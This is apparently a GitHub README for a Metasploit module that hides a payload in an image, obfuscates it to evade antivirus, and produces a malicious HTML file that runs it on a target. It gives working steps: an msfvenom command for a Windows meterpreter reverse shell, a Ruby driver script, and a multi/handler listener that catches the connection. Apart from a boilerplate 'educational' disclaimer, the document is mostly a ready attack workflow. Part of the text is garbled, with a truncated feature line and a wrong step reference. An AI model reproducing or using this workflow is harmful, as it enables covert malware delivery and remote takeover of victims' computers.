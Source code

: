 # Embedded Image Payload Module

This project demonstrates how to create a Metasploit module that embeds a payload into an image file and generates a malicious HTML file to execute the payload on a target machine.
## Features

- Embeds a payload into an image file using steganography techniques
- Encrypts the payload using XOR encryption with a random key
- Applies polymorphic techniques to obfuscate the payload and evade antivirus detection
- Generates a malicious HTML file that extracts and e- Sets up a Metasploit handler to receive the reverse shell connection

## Requirements

- Ruby programming language
- Metasploit framework

## Basic Install (see INSTALL for more info)

1. Clone the repository:
`git clone https://github.com/your-username/embedded-image-payload.git`

2. Install the required dependencies:
`bundle install`

## Creating the payload and handler

1. Generate a Metasploit payload using msfvenom. For this example, let's generate a Windows reverse shell payload. Open a terminal and run the following command:

   ```rb
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o payload.exe
   ```

   Replace `YOUR_IP` with your local IP address or the IP address of the machine where you want to receive the reverse shell connection.

2. Create a new file named `exploit.rb` in the project directory and add the following code:

   ```rb
   # exploit.rb
   require_relative 'module'
   require_relative 'payload'

   module_options = {
     'IMAGE_PATH' => 'image.jpg',
     'OUTPUT_PATH' => 'malicious.html'
   }

   module_instance = MetasploitModule.new(module_options)
   module_instance.exploit

   original_payload = File.binread('payload.exe')
   image_path = 'image.jpg'
   generate_payload(original_payload, image_path)
   ```

3. Open a new terminal window and start a Metasploit listener to catch the reverse shell connection. Run the following commands:

   ```rb
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST YOUR_IP
   set LPORT 4444
   run
   ```

   Replace `YOUR_IP` with the same IP address you used in step 4.

4. In the first terminal window, run the `exploit.rb` script:

   ```rb
   ruby exploit.rb
   ```

   This will embed the payload into the `image.jpg` file and generate a malicious HTML file named `malicious.html`.


## Disclaimer

This project is intended for educational and research purposes only. The authors and contributors are not responsible for any misuse or damage caused by this project. Use it at your own risk and ensure that you have proper authorization before using it in any real-world scenarios.

Remember to replace **YOUR_IP** with the actual IP address of your machine where you want to receive the reverse shell connection.

